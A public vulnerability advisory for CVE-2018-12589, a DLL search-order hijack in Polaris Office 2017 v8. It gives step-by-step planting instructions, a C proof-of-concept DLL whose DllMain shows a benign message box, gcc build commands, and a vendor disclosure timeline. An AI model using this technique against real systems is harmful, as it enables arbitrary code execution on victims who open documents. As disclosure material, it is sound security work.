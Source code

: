 INFO
----

    [+] Credits: John Page (aka hyp3rlinx)
    [+] Website: hyp3rlinx.altervista.org
    [+] Source:  http://hyp3rlinx.altervista.org/advisories/POLARISOFFICE-2017-v8-REMOTE-CODE-EXECUTION.txt
    [+] ISR: Apparition Security


    Vendor:
    =============
    www.polarisoffice.com


    Product:
    ===========
    PolarisOffice 2017 v8

    Polaris Document Solution is an integrated solution for corporate document life cycle from document creation, use, management, security, and collaboration.

    Used by more than 70 million subscribers in 240 countries.


    Vulnerability Type:
    ===================
    Remote Code Execution


    CVE Reference:
    ==============
    CVE-2018-12589


    Security Issue:
    ================
    Polaris Office 2017 8.1 allows attackers to execute arbitrary code via a Trojan horse "puiframeworkproresenu.dll" file
    in the current working directory, due to a search order flaw vulnerability.

    1) create a 32bit DLL named "puiframeworkproresenu.dll"
    2) put any .PDF or .PPTX file or whatever that is configured to open in Polaris Office in same directory as the above DLL
    3) open the document (PDF etc) then BOOM our arbitrary DLL will execute on victims system.

    This can be observed as well with both the DLL and a document opened from a remote share.



    Exploit/POC:
    =============

    #include <windows.h>

    /* hyp3rlinx */

    /*
    gcc -c -m32 puiframeworkproresenu.c
    gcc -shared -m32 -o puiframeworkproresenu.dll puiframeworkproresenu.o
    */

    void trojanizer(){
         MessageBox( 0, "Continue with PWNAGE?" , "philbin :)" , MB_YESNO + MB_ICONQUESTION );
    }

    BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved){
        switch(fdwReason){
            case DLL_PROCESS_ATTACH:{
                 trojanizer();
                break;
            }
            case DLL_PROCESS_DETACH:{
                 trojanizer();
                break;
            }
            case DLL_THREAD_ATTACH:{
                 trojanizer();
                break;
            }
            case DLL_THREAD_DETACH:{
                 trojanizer();
                break;
            }
        }

        return TRUE;
    }




    Network Access:
    ===============
    Remote



    Severity:
    =========
    High



    Disclosure Timeline:
    =============================
    Vendor Notification: June 14, 2018
    Vendor confirms vulnerability : June 19, 2018
    Mitre assigned CVE : June 20, 2018
    Vendor replied fix will be in July
    however, update was released : June 23, 2018
    Notified vendor of impending advisory : June 23, 2018
    Vendor : "glad to hear that your problem has been solved"
    June 26, 2018 : Public Disclosure



    [+] Disclaimer
    The information contained within this advisory is supplied "as-is" with no warranties or guarantees of fitness of use or otherwise.
    Permission is hereby granted for the redistribution of this advisory, provided that it is not altered except by reformatting it, and
    that due credit is given. Permission is explicitly given for insertion in vulnerability databases and similar, provided that due credit
    is given to the author. The author is not responsible for any misuse of the information contained herein and accepts no responsibility
    for any damage caused by the use or misuse of this information. The author prohibits any malicious use of security related information
    or exploits by the author or elsewhere. All content (c).

    hyp3rlinx
